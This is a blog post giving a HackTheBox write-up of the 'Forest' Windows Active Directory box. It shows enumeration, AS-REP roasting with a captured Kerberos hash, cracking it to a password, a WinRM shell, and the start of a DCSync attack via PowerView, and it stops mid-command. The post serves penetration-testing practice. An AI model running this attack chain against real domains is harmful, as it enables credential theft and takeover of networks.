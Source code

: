 ```yaml
---
layout: post
title: Forest - HTB Writeup
author: Mitchell Stein
tags:
- jekyll theme
- jekyll
date: 2022-02-14
tags: [write up, hackthebox, windows]
categories: [Practice]
toc:  true
---
```


Forest is an easy Windows box with a focus on Active Directory recon rather than exploitation.

## Enumeration

First, similar to every other box, we begin with a humble nmap scan. Because this is a Windows machine, we will need to add `-Pn` to the scan.

```text
# Nmap 7.92 scan initiated as: nmap -sC -sV -p- -o allnmap -v -Pn --min-rate 1000 10.10.10.161
Nmap scan report for 10.10.10.161
Host is up (0.051s latency).
Not shown: 65514 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-02-08 04:47:23Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49703/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
```

Given we have `LDAP port 389` we can use `Enum4Linux` to enumerate this LDAP service for users.

```shell
$ enum4linux -a 10.10.10.161 2> /dev/null
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Fantastic! We have a list of users we can use against other tools to see if we can get any user hashes. We can clean up this list with a simple one liner: `cat newusers| tr -d "[]" | awk -F: {'print $2'} | awk -F" " '{print $1}' > cleanusers`

```shell
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

Perfect! Now we have a clean user list to run against other tools.

## Foothold

### Getting User Hashes

We can use this new user list with Impacket's `GetNPUsers.py` or `Impacket-GetNPUsers`. GetNPUsers exploits users without pre-authentication enabled, which would allow us to grab their account password hash.

```shell
$ impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 -usersfile cleanusers htb.local/
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
.
.
.
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:8d49b0369104b38bd97f517a8c440344$530b2549fafde7dc9328efc978068556cab78af8ec4afc3025f414a367552831ce78bf76b6454474fb89a3fa93c8a6665300c45490e886dd3d3110d2f0893cb361161aab3b82518234f3e5b12d045c1ad9aea090566f71dc0c2d2a770505950f3dc263635e4abd658b9f118962fc1b33e170f6926ce28b63669a24e23c9d7747d60292004d601f4696f8cfa0f6a7505d481dc7b3b544e7534b8bf1a6ca3ba19c9f02e6c23a6624a2af2ee7c9d3fdf03b7e5af970436aba0b42293f53d35eb36519b08d22d11bc052626928206f787675d7244185ea5f11f2658f9ca4d7e79a40853f1dea796d
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Unfortunately for Alfresco but fortunately for us, svc-alfresco does not have pre-authentication enabled. We can put this output into a new file and pass it onto a cracking tool such as `John`

### Cracking Those Hashes

`John`, or otherwise known as `John the Ripper`, is a password brute force tool ot crack hashes and reveal their passwords. We can crack the hash from svc-alfresco with the following command:

```shell
$ john alfresco_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 ASIMD 4x])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)

```

### Shell

Using `Evil-WinRM` we can use the credentials to log into a Windows Remote Management shell as the svc-alfresco user.

```shell
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> echo 'im in'
> im in
```

## Bloodhound

I used `Bloodhound` to enumerate this machine and find relationships between the users and groups. To do this you must first upload SharpHound.exe to the remote machine through Evil-WinRM and collect all the information you can.

![SharpHound](https://mitchelldstein.github.io/assets/images/Forest/SharpHound.png)

To get the created json files off the machine, you can use Impacket-SmbServer and connect to it through Evil-WinRM.

Opening `Bloodhound` and importing the graphs provides the following graph

![BloodHound](https://mitchelldstein.github.io/assets/images/Forest/BloodHound.png)

WriteDacl can be exploited to give access to DCSync, Which can allow the owned user to be exploited by Impacket-SecretsDump to dump the user hashes.

## Exploitation

1. Create a new user and add them to the "Exchange Windows Permissions" group
   ![New User](https://mitchelldstein.github.io/assets/images/Forest/NewUser.png)
2. Upload Powerview.ps1, which can be found [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

   ```shell
   *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload <path-to-file>/PowerView.ps1
   *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Import-Module PowerView.ps1
   ```

3. Perform the DCsync exploit with PowerView.ps1 (Both $SecPassword and user password must be the same)

   ```shell
   *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-String '
   *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
   *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
   ```
